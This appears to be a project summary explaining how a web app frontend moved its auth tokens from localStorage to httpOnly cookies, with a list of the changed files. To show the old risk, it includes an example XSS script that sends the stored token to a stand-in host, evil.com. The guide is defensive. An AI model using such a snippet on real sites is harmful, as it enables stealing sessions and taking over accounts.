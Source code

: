 # 🔒 Security Upgrade Complete: localStorage → httpOnly Cookies

## 📋 Quick Summary

Your PlayMates frontend has been upgraded to use **httpOnly cookies** instead of localStorage for authentication tokens. This is a **best practice** that significantly improves security.

---

## ✅ What Was Changed (Frontend)

| File | Changes Made |
|------|--------------|
| `src/hooks/useUser.ts` | Removed localStorage.setItem, added signout API call |
| `src/contexts/AuthContext.tsx` | Removed localStorage, validate via API call |
| `src/lib/services/user.ts` | Added `credentials: "include"` to all fetch calls |
| `src/lib/services/meetup.ts` | Added `credentials: "include"` to ALL 8 fetch calls |
| `src/lib/config/api.ts` | Removed localStorage from headers |
| `src/middleware.ts` | Re-enabled to check cookies instead of localStorage |

**Total files modified:** 6  
**Lines changed:** ~50

---

## 🎯 Why This Matters

### Security Vulnerability (Before)

```javascript
// ❌ Attacker injects malicious script
<script>
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: localStorage.getItem('token') // ← Token stolen!
  })
</script>
```

**Impact:** Attacker gets full access to user's account

### Security Protection (After)

```javascript
// ✅ Attacker tries to steal token
<script>
  console.log(document.cookie) // ← token is NOT visible!
  // httpOnly cookie is invisible to JavaScript
</script>
```
